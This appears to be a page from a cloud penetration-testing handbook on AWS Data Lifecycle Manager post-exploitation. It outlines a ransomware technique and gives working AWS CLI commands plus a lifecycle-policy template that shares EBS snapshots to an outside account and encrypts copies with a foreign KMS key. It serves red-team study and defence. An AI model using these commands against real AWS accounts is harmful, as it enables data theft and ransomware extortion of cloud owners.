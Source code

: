# AWS - DLM Post Exploitation

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

A ransomware attack can be executed by encrypting as many EBS volumes as possible and then erasing the current EC2 instances, EBS volumes, and snapshots. To automate this malicious activity, one can employ Amazon DLM, encrypting the snapshots with a KMS key from another AWS account and transferring the encrypted snapshots to a different account. Alternatively, they might transfer snapshots without encryption to an account they manage and then encrypt them there. Although it's not straightforward to encrypt existing EBS volumes or snapshots directly, it's possible to do so by creating a new volume or snapshot.

Firstly, one will use a command to gather information on volumes, such as instance ID, volume ID, encryption status, attachment status, and volume type.

`aws ec2 describe-volumes`

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.

```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```

A template for the policy document can be seen here:

```bash
{
  "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
  "ResourceTypes": [
    "VOLUME"
  ],
  "TargetTags": [
    {
      "Key": "ExampleKey",
      "Value": "ExampleValue"
    }
  ],
  "Schedules": [
    {
      "Name": "DailySnapshots",
      "CopyTags": true,
      "TagsToAdd": [
        {
          "Key": "SnapshotCreator",
          "Value": "DLM"
        }
      ],
      "VariableTags": [
        {
          "Key": "CostCenter",
          "Value": "Finance"
        }
      ],
      "CreateRule": {
        "Interval": 24,
        "IntervalUnit": "HOURS",
        "Times": [
          "03:00"
        ]
      },
      "RetainRule": {
        "Count": 14
      },
      "FastRestoreRule": {
        "Count": 2,
        "Interval": 12,
        "IntervalUnit": "HOURS"
      },
      "CrossRegionCopyRules": [
        {
          "TargetRegion": "us-west-2",
          "Encrypted": true,
          "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
          "CopyTags": true,
          "RetainRule": {
            "Interval": 1,
            "IntervalUnit": "DAYS"
          }
        }
      ],
      "ShareRules": [
        {
          "TargetAccounts": [
            "123456789012"
          ],
          "UnshareInterval": 30,
          "UnshareIntervalUnit": "DAYS"
        }
      ]
    }
  ],
  "Parameters": {
    "ExcludeBootVolume": false
  }
}
```

